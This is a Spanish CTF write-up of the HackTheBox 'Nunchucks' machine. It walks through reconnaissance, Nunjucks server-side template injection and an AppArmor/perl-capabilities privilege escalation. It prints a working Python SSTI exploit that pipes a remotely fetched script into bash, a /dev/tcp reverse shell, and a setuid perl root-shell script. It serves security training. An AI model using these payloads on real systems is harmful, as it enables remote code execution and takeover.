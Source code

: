 ```yaml
---
title: Nunchucks
published: 2025-03-01
image: "./logo.png"
tags: [Easy, SSTI, AppArmor, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

> NodeJS SSTI (Server Side Template Injection)
> AppArmor Profile Bypass (Privilege Escalation)

### Preparación

> eJPT  
> eWPT

***

## Reconocimiento

Comenzaremos el reconocimiento con un escaneo a los puertos abiertos de esta máquina y que servicios y versiones corren en cada uno.

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.122
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FhGIPLvtURyLqXqZvKEc6%2Fimg1.png?alt=media&#x26;token=d63bc10b-ff0f-4a0f-a699-2a8fc3516b9d" alt=""><figcaption></figcaption></figure>

Podemos ver que hay 3 puertos abiertos uno con el servicio **SSH** y 2 con servicios **HTTP** y **HTTPS**, además vemos que usan el dominio _numchucks.htb_ por lo que lo añadiremos al `/etc/hosts`. Además entraremos al dominio a ver que nos encontramos.

### Ffuf

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FQpyOlFNbK0W4VSchcIlP%2Fimg2.png?alt=media&#x26;token=f8186daf-e4b6-4fd9-9970-39c624fa4998" alt=""><figcaption></figcaption></figure>

Vemos que hay un panel de _Login_ y _SignUp_, pero no funcionan, por lo que podríamos aplicar la técnica de **fuzzing**.

```
ffuf -u https://nunchucks.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -r -fs 45
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FmGGmkSLV1Y2S1v2wGEu1%2Fimg3.png?alt=media&#x26;token=7b90a0af-2567-4639-9fbf-47bd88c4e6ef" alt=""><figcaption></figcaption></figure>

Le hemos tenido que añadir un **-fs 45** porque por defecto si no encontraba un directorio te redirigia a una página de este tamaño. No hay nada interesante por lo que podríamos comprobar si esta utilizando **Virtual Hosting** (_VHOST_):

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u https://nunchucks.htb -H "Host: FUZZ.nunchucks.htb" -mc 200 -fs 30589
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fp4soqiwfyYBM7aHGlkU2%2Fimg4.png?alt=media&#x26;token=a0192f1d-4a22-4df4-bda2-b13497df67c1" alt=""><figcaption></figcaption></figure>

Al igual que antes hubo que aplicar un filtro, pero podemos ver que ha encontrado uno, lo añadiremos también al /etc/hosts y navegaremos a ver que encontramos.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FCfwpR02AgvK7fImnZvBp%2Fimg5.png?alt=media&#x26;token=1e97c906-d06a-4bbb-9949-971c53c24ff3" alt=""><figcaption></figcaption></figure>

### SSTI

Podemos ver una web simple en la que podemos introducir un email y luego se muestra nuestro input. Esto puede causar muchos problemas si está mal sanitizado. En este caso podemos aprovechar un **SSTI** (_Server Side Template Injection_) que es como introducir un XSS en HTML pero para plantillas como puede ser PUG entre otros. Por lo que probaremos con algo simple.

```
{{2+2}}@gmail.com
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F5YjX1N1tJIQNhPiE6aD4%2Fimg6.png?alt=media&#x26;token=4d031111-aa43-4ddc-89c8-f56d5044e98a" alt=""><figcaption></figcaption></figure>

### WhatWeb

Podemos ver que realiza la operación por lo que es vulnerable. Ahora necesitamos saber que tipo de plantilla esta utilizando, por lo que usaremos **whatweb** para sacar más información.

```
whatweb https://store.nunchucks.htb/
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FBLmCIJ7YOm3VjNUjWzWi%2Fimg7.png?alt=media&#x26;token=895b70d9-836b-4c54-a3fe-9074de7710b9" alt=""><figcaption></figcaption></figure>

Podemos ver que corre **Express.js**, veamos que posibles plantillas existen:

* PugJs `#{7*7}` ❎
* Handlebars `${7*7}` ❎
* Nunjucks (Similar al nombre de la máquina) `{{7*7}}` ✅

## Explotación

&#x20;Vamos a crear un exploit en **python** para poder explotar esta vulnerabilidad.


```python
#!/usr/bin/python3

import requests
from urllib3.exceptions import InsecureRequestWarning

def main():
    try:
        # Suppress the warnings from urllib3
        requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

        payload = """{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl http://10.10.14.16/index.html | bash ')")()}}"""
        response = requests.post(
            url="https://store.nunchucks.htb/api/submit",
            json={"email": payload},
            verify=False
        )

        if response.status_code == 200:
            print(response.text)
        else:
            print("[x] Something went wrong")
    except Exception as e:
        print(str(e))

if __name__ == "__main__":
    main()
```

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```

Con esto podremos establecer una reverse shell con la que podremos obtener la flag de usuario para luego poder hacer una escalada de privilegios y poder conseguir la root flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FD3TlztcRuyAPhsYwp6tX%2Fimg8.png?alt=media&#x26;token=536becc5-2b02-426d-8b70-20e9ec600e17" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Para la escalación vamos a ver que permisos **root** encontramos.

```
find . -perm -4000 -user root 2>/dev/null
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FIg4u8M7dzf0rzkuU9A2S%2Fimg9.png?alt=media&#x26;token=60d72c2b-7f63-48b8-9c83-687ebc15e492" alt=""><figcaption></figcaption></figure>

```
getcap / -r 2>/dev/null
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fs4K9gDsX4pWZseAkMmUb%2Fimg10.png?alt=media&#x26;token=e291ee66-d39e-41c0-914f-607f6bf055b3" alt=""><figcaption></figcaption></figure>

Aclaración de el uso de estos comandos:

#### 1. **`find . -perm -4000 -user root 2>/dev/null`**

* `find .` → Busca archivos en el directorio actual y sus subdirectorios.
* `-perm -4000` → Filtra los archivos que tienen el **bit SUID** activado. Este bit permite que el archivo se ejecute con los permisos de su propietario en lugar de los del usuario que lo ejecuta.
* `-user root` → Filtra los archivos que pertenecen al usuario `root`.
* `2>/dev/null` → Redirige los errores (como permisos denegados) a `/dev/null` para que no se muestren en la salida.

**¿Para qué sirve?**\
Encuentra archivos con permisos **SUID** de `root`, lo que es útil en auditorías de seguridad, ya que estos archivos pueden permitir la escalada de privilegios si tienen vulnerabilidades.

#### 2. **`getcap / -r 2>/dev/null`**

* `getcap / -r` → Busca en todo el sistema (`/`) archivos con **capabilities** activadas y muestra sus capacidades.
* `2>/dev/null` → Redirige los errores a `/dev/null`.

**¿Para qué sirve?**\
Muestra qué archivos tienen **capabilities** activadas en el sistema.\
En lugar de depender de SUID, Linux tiene un sistema de capacidades (`capabilities`) que otorga permisos específicos sin necesidad de ser `root`.\
Por ejemplo, si un binario tiene `cap_net_admin`, puede modificar interfaces de red sin ser `root`.



Una vez aclarado esto vemos que **perl** tiene capabilities activadas las cuales podríamos intentar explotar con:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FB4zu1VNfRjffiZLMWrcO%2Fimg11.png?alt=media&#x26;token=133f089f-6c88-48cb-ba3c-fe7393e4bf85" alt=""><figcaption></figcaption></figure>

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fvz7q99TEUxVajmWWH3ww%2Fimg12.png?alt=media&#x26;token=e0e8c32d-16eb-417f-9bfa-ad5ae1286920" alt=""><figcaption></figcaption></figure>

Vemos que funciona, vamos a intentar lanzar un ping a nosotros mismos:

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "ping -c 1 10.10.14.16";'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FrszYcniiuAZuKMhsJBrP%2Fimg13.png?alt=media&#x26;token=fb781d7e-52e0-4d9e-8033-90ac819566a8" alt=""><figcaption></figcaption></figure>

```
sudo tcpdump -ni tun0 icmp
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F7PG7ob9vJYzUpUBp72Rq%2Fimg14.png?alt=media&#x26;token=bf08cb44-3fc4-4890-82cd-940778b88764" alt=""><figcaption></figcaption></figure>

No recibimos nada, es posible que algo lo esté bloqueando. Tras una pequeña búsqueda vemos que está protegiéndolo **AppArmor**, que básicamente es una aplicación de protección contra amenazas en linux. Vamos a comprobar si está activa.

```
find \-name \*apparmor\* 2>/dev/null | grep -vE "var|proc|sys|usr"
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FMpuUOb4UpFx31opcEzbr%2Fimg15.png?alt=media&#x26;token=6aa57b94-8e06-4262-a741-b5a8adaf194b" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F2aSIlFUJFm8McO4aQf2T%2Fimg16.png?alt=media&#x26;token=b4c80b9d-dea1-4b94-9bf9-c33d99ad2d0c" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F9swyXWpxq1cP8kG5JukX%2Fimg17.png?alt=media&#x26;token=374cb54d-aeb9-4f72-be3a-73b076d47c28" alt=""><figcaption></figcaption></figure>

Podemos ver que hay bastante información sobre **apparmor.d**, vamos a ver que hay en `/opt/backup.pl`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FqwwXRQU3C6yaoRZXL3Wb%2Fimg18.png?alt=media&#x26;token=d3921caf-dab2-4ff5-90a7-5e90d3b6212d" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F6Or04vWcoATYNAqw3FLY%2Fimg19.png?alt=media&#x26;token=8043821e-9e47-4e3b-b033-f27f362cde67" alt=""><figcaption></figcaption></figure>

Vemos que solo tenemos permisos de ejecución y no de escritura. Buscando vulnerabilidades de AppArmor podemos encontrar una relacionada con [perl](https://bugs.launchpad.net/apparmor/+bug/1911431).

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fh3MZUVt59BVww1zbo6Xo%2Fimg20.png?alt=media&#x26;token=1467510d-8f85-48b5-bb8e-f74b9bba3726" alt=""><figcaption></figcaption></figure>

Podemos ganar privilegios con el mismo script del **GTFObins** pero usando el _shebang._


```bash
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FyFayqo7H7Mj34gGyViDI%2Fimg21.png?alt=media&#x26;token=5657d109-3ff5-417e-89e8-3d7307df4d6c" alt=""><figcaption></figcaption></figure>

Vemos que después de darle permisos y ejecutarlo, obtenemos la flag root.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/414)

---
